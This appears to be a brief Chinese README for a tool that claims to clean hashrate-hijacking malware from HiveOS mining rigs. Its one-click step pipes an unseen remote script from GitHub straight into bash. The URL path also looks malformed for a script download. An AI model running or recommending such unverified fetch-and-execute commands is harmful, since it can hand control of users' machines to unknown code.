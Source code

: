 # HIVEOS-clean
针对HIVEOS及其他定制版本（比如asia版，bigminer等）强力杀毒，
应对偷算力，算力劫持等病毒有奇效，无后台，可自行测试。
一键杀毒命令，运行后矿机会自动杀毒重启

```bash 
curl -s https://github.com/SSLminerProxy/HIVEOS-clean/new/main/clean.sh | bash
